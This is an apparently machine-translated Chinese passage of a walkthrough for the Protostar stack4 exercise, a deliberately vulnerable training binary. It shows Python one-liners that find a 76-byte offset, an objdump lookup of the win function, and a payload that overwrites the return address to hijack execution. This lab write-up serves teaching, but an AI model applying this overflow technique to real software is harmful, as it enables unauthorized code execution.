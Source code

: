 ```

  gets(buffer);
}
```

**我们需要重定向程序的执行流，并执行 win 函数，该函数不应该在理想情况下执行。*没有" f* ***功能指针变量*** *和* ***没有修改变量*** *。我们可以溢出堆栈上的返回指针，而不是溢出一个局部变量。它将读取错误的值&转而运行。***

# **让我们尝试溢出缓冲区并增加它，直到我们得到一个分段错误消息。**

```
user@protostar:/opt/protostar/bin$ python -c 'print("A"*64)' | ./stack4
user@protostar:/opt/protostar/bin$ python -c 'print("A"*70)' | ./stack4
user@protostar:/opt/protostar/bin$ python -c 'print("A"*75)' | ./stack4
user@protostar:/opt/protostar/bin$ python -c 'print("A"*76)' | ./stack4Segmentation fault
```

**我们可以说 76 字节之后是覆盖指令指针的区域，所以我们需要 76 个‘A’和小端字节序的 *win* 的地址。**

```
user@protostar:/opt/protostar/bin$ objdump -x stack4 | grep win080483f4 g     F .text 00000014              win
```

**于是我们得到了 win 的地址，就是“0x080483f4”。现在我们只需要用 Python 打印 76 'A，然后是小端地址。**

```
user@protostar:/opt/protostar/bin$ python -c 'print("A"*76 + "\xf4\x83\x04\x08")' | ./stack4**code flow successfully changed**Segmentation fault 
```

**耶！！**代码流已成功更改**。我们执行了 win 函数。**

> **分段故障？？这是因为在代码执行了 win 函数之后，它试图返回到堆栈上的下一个值。哪一个不是有效的代码区域:)**

# **如果我告诉你这只是一个开始呢？？**

**现在是时候用**外壳代码**编写我们的第一个 BufferOverflow 了，它向您展示了 bufferOverflow 将会有多么强大。在前面的例子中，我们已经看到，当程序接受用户控制的输入时，它可能不会检查长度，因此恶意用户可能会覆盖值并实际更改变量。我们可以控制函数返回的位置，并改变程序的执行流程。我们知道，我们可以通过将返回地址指向某个内存地址来控制执行流程，那么我们实际上如何做一些有用的事情呢？？这就是“**外壳代码”**的用武之地。**

**![](img/1ba01cbfdd83cb1a863e6094ad7e3666.png)**
